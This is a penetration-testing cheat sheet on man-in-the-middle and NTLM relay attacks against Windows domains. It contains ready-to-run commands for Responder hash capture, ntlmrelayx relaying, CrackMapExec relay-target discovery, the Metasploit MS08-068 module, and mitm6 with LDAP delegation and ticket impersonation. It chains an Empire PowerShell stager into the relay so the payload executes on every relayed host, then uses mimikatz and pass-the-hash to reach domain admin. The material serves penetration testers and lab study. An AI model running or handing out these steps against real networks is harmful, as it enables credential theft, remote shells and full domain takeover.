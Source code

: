 # MitM & Relay



{% hint style="info" %}
#### For a full list of MitM techniques refer to [MitM & poisoning](broken-reference) section.
{% endhint %}

## <mark style="color:red;">RDP MitM</mark>

refer to this section .

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows200 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
responder -I eth0 # disable smb & http
ntlmrelayx.py -tf targets.txt
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user(s) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:

```
cme smb <CIDR> --gen-relay-list targets.txt
```

Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.

### <mark style="color:orange;">Responder</mark>

{% embed url="https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning" %}

Responder does not pick up on FQDN queries, but it does pick up on NetBIOS and LLMNR, because Windows boxes are very chatty. When Windows boxes try to authenticate to things like file shares they default to NetBIOS for queries. This occurs with the use of NetNTLMv2 hashes.

Responder captures these NetNTLMv2 hashes. You can not pass the hash with these but you can crack them or you can relay them to other machines. This part will only explain how to run Responder and capture hashes.

**Start Responder**

```
Responder -I eth0 -wrf
```

Where -I is for interface and eth0 is your interface. The -wrf is optional, but -f is useful as it fingerprints the OS version. The other options are explained with -h.

To try this out in your lab, open explorer on a Windows machine and type `\\share\` in the address bar and wait for the credential prompt. This will trigger a name resolution request over SMB to find a resource using the current account's credentials. That should allow Responder to capture the NetNTLMv2 hash of the user making the request and print them in your terminal.

You can now crack the hashes using your favorite tool, but another alternative is relaying those hashes.

Now so far, Responder had set up an HTTP and SMB server to act as a middleman between the one requesting a resource and the file share. We now want to give our captured hashes to the tool NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:

```
Responder -I eth0 -wrf
```



### <mark style="color:orange;">Empire</mark>

Now getting into Empire shouldn't be too hard if you are familiar with tools such as Metasploit. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/).

Start up Empire, open a listener and create a so called stager, point it to your listener. The generated output is your payload. Note that this kind of output is normally picked up by antivirus in real environment.

```
./empire
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

### <mark style="color:orange;">NTLMrelay</mark>

Now perform the actual relaying using ntlmrelay from the Impacket library.

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

### <mark style="color:orange;">Back to Empire</mark>

Now in my lab environment I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

* Trigger a few requests from the Windows machines using the `\\share\` trick.
* Restart all the tools.
* Reset Empire's database.
* Reboot the Windows machines.
* Execute the payload from cmd inside a Windows computer to check if it's actually working. (You should get an agent instantly).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

> Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.

**Useful links:**

{% embed url="https://blog.stealthbits.com/lateral-movement-with-crackmapexec" %}

## <mark style="color:red;">NTLM/LDAP Relay + MitM6</mark>

```
mitm6 -i eth0 -d <domain>

ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```



